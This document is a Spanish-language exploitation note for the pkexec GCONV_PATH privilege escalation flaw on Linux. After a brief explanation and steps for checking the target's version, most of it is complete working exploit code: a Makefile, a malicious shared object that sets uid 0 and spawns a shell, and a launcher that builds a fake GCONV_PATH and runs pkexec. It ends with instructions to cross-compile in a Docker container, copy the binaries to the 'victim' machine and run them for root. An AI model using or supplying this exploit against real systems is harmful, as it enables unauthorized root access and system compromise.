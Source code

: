 Afecta a versiones vulnerables de pkexec, que tiene el SUID activado.
This tool is using SUID-root to run commands as another user, normally the super user (root). However, the flaw arises from the sloppy processing of command line arguments. An out-of-bounds read and write occurs in main() of pkexec, posing this security risk. 

Therefore, by setting environment variables like **GCONV_PATH** malicious code can be executed as the super user.

1. Ver localización del binario `locate pkexec`
2. Ver versión `<ruta>/pkexec --version`
3. Poner en internet la versión pkexec exploit y ver si tiene asociada el CVE aqui descrito
4. Ver os-release de la máquina víctima `cat /etc/os-release`
	Ejemplo de salida:
NAME="Ubuntu"
VERSION="20.04.3 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04.3 LTS"
VERSION_ID="20.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=focal
UBUNTU_CODENAME=focal


Estos tres archivos son necesarios para explotar la vulnerabilidad.
1.  Makefile
```Makefile
all: 
	gcc -shared -o evil.so -fPIC evil-so.c 
	gcc exploit.c -o exploit 
clean: 
	rm -r ./GCONV_PATH=. && rm -r ./evildir && rm exploit && rm evil.so
```

2.  evil-so.c
```c
#include <stdio.h> 
#include <stdlib.h> 
#include <unistd.h> 
void gconv() {} 
void gconv_init() 
{ 
	setuid(0); 
	setgid(0); 
	setgroups(0); 
	execve("/bin/sh", NULL, NULL); 
}
```

3. exploit.c
```c
##### exploit.c ##### 
#include <stdio.h> 
#include <stdlib.h> 
#define BIN "/usr/bin/pkexec" 
#define DIR "evildir" 
#define EVILSO "evil" 
int main() { 
	char *envp[] = { DIR, "PATH=GCONV_PATH=.", "SHELL=ryaagard", "CHARSET=ryaagard", NULL }; 
	char *argv[] = { NULL }; 
	system("mkdir GCONV_PATH=."); 
	system("touch GCONV_PATH=./" DIR " && chmod 777 GCONV_PATH=./" DIR); system("mkdir " DIR); 
	system("echo 'module\tINTERNAL\t\t\tryaagard//\t\t\t" EVILSO "\t\t\t2' > " DIR "/gconv-modules"); 
	system("cp " EVILSO ".so " DIR); 
	execve(BIN, argv, envp); 
	return 0; 
}
```

Hay que compilarlos en una máquina con la misma versión de ldd que la víctima (**EN EL CASO DE QUE LA VICTIMA NO TENGA NI MAKE NI GCC**), por ello usamos un contenedor.
1. Colocamos en una carpeta, por ejemplo `work` los 3 archivos descritos arriba, el Makefile, el evil.so.c y el exploit.c.
2. Creamos un contenedor con la versión de la máquina víctima y un volumen en el directorio actual que es donde están los ficheros arriba descritos.
```bash
docker run --rm -it -v "$PWD":/work ubuntu:20.04 bash
```
3. Una vez dentro del contenedor, instalamos las dependencias para usar make y gcc:
```bash
apt-get update
apt-get install -y build-essential
```

4. Entramos en la carpeta dónde se montó el volumen /work y ahí estarán los ficheros.
5. Compilamos con `make all`
6. Comprobamos que están lo binarios `ll`
7. Los transferimos a la máquina víctima y ejecutamos `./exploit`

ENJOY ROOT!